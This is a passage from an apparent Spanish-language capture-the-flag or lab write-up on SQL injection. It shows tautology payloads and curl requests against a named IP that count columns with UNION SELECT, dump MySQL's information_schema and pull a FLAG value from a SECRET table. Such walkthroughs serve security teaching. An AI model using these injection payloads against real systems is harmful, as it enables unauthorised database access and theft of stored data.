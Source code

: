 ```
*WHERE ID = $ID OR NAME = $NAME;*
```
Con nuestro *input* ***' or 1=1 ---***, creamos la clausula:
```
*WHERE ID = '' or 1=1  -- OR NAME = $NAME;*
```
Con *-- --* le decimos que todo lo que venga después de *1=1*, es un comentario y queda descartado. También podríamos haber usado ***' or 1=1 or '***.

Ahora que sabemos que es vulnerable a *SQLi* , vamos a sacar toda la información posible, pero para poder extraer la información vamos a usar el operador *UNION* para encadenar sentencias *SQL*.
{: style="text-align: justify;"}

Antes de seguir, hay que averiguar cuantas columnas devuelve la *query* original y devolver el mismo número de columnas en la segunda *query* para que *UNION *pueda contruir el resultado final.
{: style="text-align: justify;"}
```
# curl --data "search_text=' or 1=1 UNION SELECT 1-" http://34.253.233.243/search1.php
# curl --data "search_text=' or 1=1 UNION SELECT 1 -" http://34.253.233.243/search1.php
# curl --data "search_text=' or 1=1 UNION SELECT 1,2 -" http://34.253.233.243/search1.php
# curl --data "search_text=' or 1=1 UNION SELECT 1,2,3 -" http://34.253.233.243/search1.php
...,ID: 1 - NAME: 2 - STOCK: 3</br>
```
Como veis la última nos devuelve resultado, así que ya sabemos como construir la sentencia después de *UNION*.
{: style="text-align: justify;"}

#### **Extrayendo bases de datos, tablas y columnas.**

Sabiendo que la información relativa a la estructura de base de datos de* MySQL* se  guarda en la base de datos interna con nombre *information_schema, *podemos comprobar si la aplicación corre sobre este *SGBD*.*\
*Para esto usaremos la *subquery*:
```
select group_concat(c.COLUMN_NAME,'-',c.TABLE_NAME,'-',c.TABLE_SCHEMA) from information_schema.COLUMNS c
```
Aquí decimos, devuélveme agrupados los valores COLUMN_NAME, TABLE_NAME y TABLE_SCHEMA de la tabla *information_schema.COLUMNS*.
{: style="text-align: justify;"}

La petición final con la *subquery* quedaría así:
```
# curl --data "search_text=' or 1=0 UNION SELECT 1,(select group_concat(c.COLUMN_NAME,'-',c.TABLE_NAME,'-',c.TABLE_SCHEMA) from information_schema.COLUMNS c ),3 --" http://34.253.233.243/search1.php;echo
ID: 1 - NAME: ID-CLIENTS-PHARMA_CORP,NAME-CLIENTS-PHARMA_CORP,ID-PRODUCTS-PHARMA_CORP,NAME-PRODUCTS-PHARMA_CORP,STOCK-PRODUCTS-PHARMA_CORP,ID-SECRET-PHARMA_CORP,FLAG-SECRET-PHARMA_CORP,PLUGIN_NAME-ALL_PLUGINS-information_schema,PLUGIN_VERSION-ALL_PLUGINS-information_schema,PLUGIN_STATUS-ALL_PLUGINS-information_schema,PLUGIN_TYPE-ALL_PLUGINS-information_schema,PLUGIN_TYPE_VERSION-ALL_PLUGINS-information_schema,PLUGIN_LIBRARY-ALL_PLUGINS-information_schema,PLUGIN_LIBRARY_VERSION-ALL_PLUGINS-information_schema,PLUGIN_AUTHOR-ALL_PLUGINS-information_schema,PLUGIN_DESCRIPTION-ALL_PLUGINS-information_schema,PLUGIN_LICENSE-ALL_PLUGINS-information_schema,LOAD_OPTION-ALL_PLUGINS-information_schema,PLUGIN_MATURITY-ALL_PLUGINS-information_schema,PLUGIN_AUTH_VERSION-ALL_PLUGINS-information_schema,GRANTEE-APPLICABLE_ROLES-information_schema,ROLE_NAME-APPLICABLE_ROLES-information_schema,IS_GRANTABLE-APPLICABLE_ROLES-information_schema,IS_DEFAULT-APPLICABLE_ROLES-information_schema,CHARACTER_SET_NAME-CHARACTER_SETS-information_schema,DEFA - STOCK: 3</br>
```
En el listado de columnas, podemos ver que hay las tabla *SECRETS* con una columna *FLAGS*:
```
*...,ID-SECRET-PHARMA_CORP,FLAG-SECRET-PHARMA_CORP,...*
```
Así que vamos a sacar el contenido de la columna *FLAG* de la tabla *SECRET*:
```
# curl --data "search_text=' or 1=0 UNION SELECT 1,(select FLAG FROM SECRET LIMIT 1),3 --" http://34.253.233.243/search1.php;echo
```
